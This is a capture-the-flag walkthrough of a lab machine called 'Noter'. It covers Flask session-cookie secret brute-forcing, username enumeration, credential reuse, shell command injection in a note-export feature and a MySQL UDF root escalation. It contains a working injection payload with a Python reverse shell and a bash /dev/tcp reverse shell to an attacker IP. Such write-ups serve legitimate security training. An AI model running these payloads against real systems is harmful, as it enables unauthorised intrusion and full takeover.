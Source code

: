 # Noter

Gaining Access

As usual, we start with an Nmap scan:

<figure><img src="../../../.gitbook/assets/image (58).png" alt=""><figcaption></figcaption></figure>

Port 5000 was a HTTP port that was running some notetaking application.&#x20;

### JWT Token Brute Force

The web application allowed us to register or login:

<figure><img src="../../../.gitbook/assets/image (33).png" alt=""><figcaption></figcaption></figure>

I created a user and logged in. When I proxied the traffic through Burp, we can see that there is a JWT Session Cookie present:

<figure><img src="../../../.gitbook/assets/image (65).png" alt=""><figcaption></figcaption></figure>

When decrypted, we can see that it contains some data:

<figure><img src="../../../.gitbook/assets/image (69).png" alt=""><figcaption></figcaption></figure>

Generally, from other machine experiences, Flask uses JWT cookies to differentiate sessions. So I tried to brute force the secret of this cookie with `flask-unsign` and `rockyou.txt`.&#x20;

<figure><img src="../../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

With the secret found, we can create our own cookies and make whatever username we want. However, we still need to find a username that works.

### Username Enumeration

I noticed that the website has different responses when we key in an invalid username and a valid one,

I created the `test` user and tried a wrong password, and got the `Invalid Login` warning:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

If we did this a user that does not exist, it would tell us `Invalid Credentials`.&#x20;

<figure><img src="../../../.gitbook/assets/image (57).png" alt=""><figcaption></figcaption></figure>

With this boolean condition, we can brute force all possible users within the machine. I used Burp Intruder to do so:

<figure><img src="../../../.gitbook/assets/image (49).png" alt=""><figcaption></figcaption></figure>

Then I filtered the results using the `Invalid Login` string.

<figure><img src="../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

So `blue` is the user on this machine. We can use the secret we found earlier to create a new cokie and sign in by replacing the cookie:

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

### FTP Credentials

With access to this new user, we can view more hidden notes:

<figure><img src="../../../.gitbook/assets/image (43).png" alt=""><figcaption></figcaption></figure>

The first one was the most interesting as it revealed some FTP Credentials:

<figure><img src="../../../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

Logging into FTP, we can gain access to a password policy PDF.

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Reading the Password Policy, we can see that the passwords are all templated:

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

With this hint, we can login as `ftp_admin` using `ftp_admin@Noter!`.&#x20;

### Source Code Review

WIth access to the new FTP account, we can find two website source code backups made at different times:

<figure><img src="../../../.gitbook/assets/image (40).png" alt=""><figcaption></figcaption></figure>

Additionally, because we are the `blue` user, we can view the VIP dashboard which allows us to **import and export notes**.&#x20;

<figure><img src="../../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

When checking the Export Notes portion of code, we see that it **runs a command using a shell.**

```python
# Export remote
@app.route('/export_note_remote', methods=['POST'])
@is_logged_in
def export_note_remote():
    if check_VIP(session['username']):
        try:
            url = request.form['url']

            status, error = parse_url(url)

            if (status is True) and (error is None):
                try:
                    r = pyrequest.get(url,allow_redirects=True)
                    rand_int = random.randint(1,10000)
                    command = f"node misc/md-to-pdf.js  $'{r.text.strip()}' {rand_int}"
                    subprocess.run(command, shell=True, executable="/bin/bash")

                    if os.path.isfile(attachment_dir + f'{str(rand_int)}.pdf'):

                        return send_file(attachment_dir + f'{str(rand_int)}.pdf', as_attachment=True)

                    else:
                        return render_template('export_note.html', error="Error occured while exporting the !")

                except Exception as e:
                    return render_template('export_note.html', error="Error occured!")


            else:
                return render_template('export_note.html', error=f"Error occured while exporting ! ({error})")
            
        except Exception as e:
            return render_template('export_note.html', error=f"Error occured while exporting ! ({e})")

    else:
        abort(403)
```

In specific, it runs `md-to-pdf.js`, which might be an RCE vector here. So, we can create a malicious .md file that has commands within it to allow for code injection.&#x20;

<figure><img src="../../../.gitbook/assets/image (68).png" alt=""><figcaption></figcaption></figure>

For this case, we would need to have something to escape the first quote and command, hence we start the payload with `';`. Afterwards, we need to inject some Python code since this is a Python based website. I used a basic Python3 reverse shell.

Then, we need to end it with `#'` to close the quote and end the command:

```
';python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.12",21));
os.dup2( s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")' # '
```

We can then upload this file and gain a reverse shell as the `svc` user on a listening port.

### SQL Creds

Additionally, when checking the two backups, I used `diff` to view the differences between each file. I found that some MySQL Credentials were removed from the more recent backup:

<figure><img src="../../../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

With the MySQL Creds, we can login as root:

<figure><img src="../../../.gitbook/assets/image (60).png" alt=""><figcaption></figcaption></figure>

Because MySQL was running as root on the machine, we could do the `raptor_udf.so` exploit. This exploit basically uses a shared library that runs commands from the SQL plugins library. We can add a custom command that would allow us to gain RCE as the root user.

There are more detailed instructions here:

{% embed url="https://www.exploit-db.com/raw/1518" %}

<figure><img src="../../../.gitbook/assets/image (47).png" alt=""><figcaption></figcaption></figure>

Afterwards, we can just use the `do_system('bash -c "bash -i >& /dev/tcp/10.10.16.12/21 0>&1"');` function we defined to gain a reverse shell on the machine.&#x20;

<figure><img src="../../../.gitbook/assets/image (67).png" alt=""><figcaption></figcaption></figure>
